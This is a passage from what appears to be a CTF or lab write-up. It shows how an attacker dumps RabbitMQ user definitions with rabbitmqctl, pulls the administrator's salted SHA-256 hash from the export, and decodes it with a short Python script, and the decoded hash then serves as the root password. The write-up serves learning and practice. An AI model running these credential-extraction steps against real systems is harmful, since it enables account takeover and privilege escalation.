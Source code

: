 We extract RabbitMQ **password hashes** using : 

```
rabbitmqctl export_definitions /tmp/rabbitmq.json
```

![Capture d'écran 2025-03-01 203656](https://github.com/user-attachments/assets/9a4eab4f-a129-4989-83c1-817f6b61e4e8)

Then, we pretty-print the JSON file to locate the administrator’s password hash : 

```
python3 -m json.tool /tmp/rabbitmq.json
```

![Capture d'écran 2025-03-01 230831](https://github.com/user-attachments/assets/3f71f0ac-24eb-407e-909f-7861c129a956)

According to the RabbitMQ documentation, we can understand how the hash is constructed : 

> [RabbitMQ](https://www.rabbitmq.com/docs/passwords#changing-algorithm) :
> ### This is the algorithm:[​](https://www.rabbitmq.com/docs/passwords#this-is-the-algorithm "Direct link to This is the algorithm:")
> - Generate a random 32 bit salt. In this example, we will use `908D C60A`. When RabbitMQ creates or updates a user, a random salt is generated.
> - Prepend the generated salt with the UTF-8 representation of the desired password. If the password is `test12`, at this step, the intermediate result would be `908D C60A 7465 7374 3132`
> - Take the hash (this example assumes the default [hashing function](https://www.rabbitmq.com/docs/passwords#changing-algorithm), SHA-256): `A5B9 24B3 096B 8897 D65A 3B5F 80FA 5DB62 A94 B831 22CD F4F8 FEAD 10D5 15D8 F391`
> - Prepend the salt again: `908D C60A A5B9 24B3 096B 8897 D65A 3B5F 80FA 5DB62 A94 B831 22CD F4F8 FEAD 10D5 15D8 F391`
> - Convert the value to base64 encoding: `kI3GCqW5JLMJa4iX1lo7X4D6XbYqlLgxIs30+P6tENUV2POR`
> - Use the finaly base64-encoded value as the `password_hash` value in HTTP API requests and generated definition files

To retrieve the `SHA256` hash, we can run the following code : 

```
import base64
import binascii

# Base64-encoded RabbitMQ password hash 
rabbitmq_hash = <hash>  

# First we need to decode the Base64-encoded hash
decoded = base64.b64decode(rabbitmq_hash)

# Then extract the remaining bytes (SHA-256 hash) without the first 4 bytes (salt)
hash_value = decoded[4:]  

# Print the extracted SHA-256 hash in hexadecimal format
print(f"SHA-256 Hash : {binascii.hexlify(hash_value).decode()}")
```

By executing the code, we obtain the hash, which also serves as the `root` **password** :

![Capture d'écran 2025-03-01 230936](https://github.com/user-attachments/assets/f98f33a7-8496-4133-a685-9b407dbc9792)

--- 